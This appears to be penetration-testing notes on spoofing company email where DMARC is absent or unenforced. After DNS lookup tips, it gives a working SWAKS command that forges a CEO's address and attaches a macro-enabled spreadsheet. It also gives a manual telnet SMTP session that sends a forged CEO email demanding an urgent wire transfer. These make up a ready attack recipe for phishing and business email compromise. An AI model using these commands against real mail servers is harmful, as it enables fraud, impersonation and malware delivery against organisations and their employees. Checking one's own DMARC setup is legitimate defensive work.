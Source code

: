 # Email
Often email servers are misconfigured and make it easy to impersonate company emails which opens alot of attack vectors.

## Tools
- nslookup: Lookup records such as mx, dmarc, spf, ect.
- dig: Same as nslookup but sometimes nslookup might not report all the records.
- [mxtoolbox](https://mxtoolbox.com/SuperTool.aspx): Online version of nslookup with a nice interface.
- [Can I Be Spoofed](https://github.com/Rices/CanIBeSpoofed): Automatically scan for a ton of email exploits.
- [SWAKS](https://github.com/jetmore/swaks): Tool for working with SMTP and can automate a lot of the exploits.

## DMARC
If DMARC isn't configured there is no way to verify the alignment between `MAIL FROM` and `FROM` fields. Since 99% of receiving users only see `FROM` then an attacker is free to forge anything.

This attack is also called "SPF-BYPASS"

You can check on [mxtoolbox](https://mxtoolbox.com/SuperTool.aspx) using the DMARC tool or run one of the following:

```shell
nslookup _dmarc.target.com txt
dig _dmarc.target.com txt
```

> If it is set check if `p=None` is set. `p=none` means DMARC policy of reject or quarantine isn't enforced.

1. Buy a domain or configure a subdomain.
2. Get a VPS that allows SMTP like DigitalOcean.
3. Set the right SPF record on the domain. For example `v=spf1 mx a ip4:<Digital OCEAN IP> -all`
4. Using [SWAKS](https://github.com/jetmore/swaks): `./swaks --ehlo mydomain.com(step1) --from attacker@mail.mydomain.com --to victim@orgname.com --server orgname-com.mail.protection.outlook.com --h-From '"CEO  ORG" <ceo@orgname.com>' --attach-type text/html --attach-body @Mail-Template.html --attach macroexcel.xlsm --attach-type text/html` or whatever payloads you want to send.

### Manual
Instead of using [SWAKS](https://github.com/jetmore/swaks) you can manually do the same stuff with `telnet`.

```shell
telnet orgname-com.mail.protection.outlook.com 25
```

```shell
ehlo mydomain.com
MAIL FROM: attacker@mydomain.com
RCPT To: victim@orgname.com
data
from: "CEO ORG" <ceo@orgname.com>
to: <victim@orgname.com
subject: transfer money urgently!!

Need you to wire transfer to account 123456789. Get this done ASAP!
```
